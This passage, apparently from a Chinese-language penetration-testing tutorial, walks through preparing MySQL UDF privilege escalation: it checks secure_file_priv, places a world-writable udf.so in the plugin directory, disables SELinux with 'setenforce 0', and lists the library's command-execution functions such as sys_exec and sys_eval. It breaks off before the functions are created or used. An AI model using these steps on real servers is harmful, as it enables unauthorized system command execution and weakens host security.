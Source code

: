 ```sql
mysql> show variables like "%secure_file_priv%";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.00 sec)
```

**将UDF文件移动到这个目录并赋予权限**

```bash
[root@localhost plugin]# ll udf.so
-rwxrwxrwx. 1 root root 8040 11月  2 10:21 udf.so
```

**关闭SELINUX**

```bash
[root@localhost plugin]# setenforce 0
```

#### 8.4.3 开始提权

##### 本地查看共享库的可用函数

```bash
[root@localhost plugin]# nm -D udf.so
0000000000201788 A __bss_start
                 w __cxa_finalize
0000000000201788 A _edata
0000000000201798 A _end
                 U fgets
0000000000001178 T _fini
                 U fork
                 U free
                 U getenv
                 w __gmon_start__
0000000000000ba0 T _init
                 w _Jv_RegisterClasses
000000000000101a T lib_mysqludf_sys_info
0000000000000da4 T lib_mysqludf_sys_info_deinit
0000000000001047 T lib_mysqludf_sys_info_init
                 U malloc
                 U mmap
                 U pclose
                 U popen
                 U realloc
                 U setenv
                 U strcpy
                 U strncpy
0000000000000dac T sys_bineval
0000000000000dab T sys_bineval_deinit
0000000000000da8 T sys_bineval_init
                 U sysconf
0000000000000e46 T sys_eval
0000000000000da7 T sys_eval_deinit
0000000000000f2e T sys_eval_init
0000000000001066 T sys_exec
0000000000000da6 T sys_exec_deinit
0000000000000f57 T sys_exec_init
00000000000010f7 T sys_get
0000000000000da5 T sys_get_deinit
0000000000000fea T sys_get_init
000000000000107a T sys_set
00000000000010e8 T sys_set_deinit
```